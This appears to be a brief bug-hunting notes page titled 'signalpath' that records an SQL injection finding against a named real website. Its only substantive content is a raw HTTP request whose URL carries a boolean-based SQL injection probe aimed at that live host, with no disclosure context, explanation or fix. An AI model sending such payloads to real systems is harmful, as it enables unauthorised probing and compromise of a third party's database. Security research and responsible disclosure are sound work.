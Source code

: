 ___

# signalpath

Find urls

# projectbaseline

## SQL Injection 

```
GET /shape-healthtech/?189304164'%20or%204312%3d4317--%20=1 HTTP/2
Host: www.projectbaseline.com
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

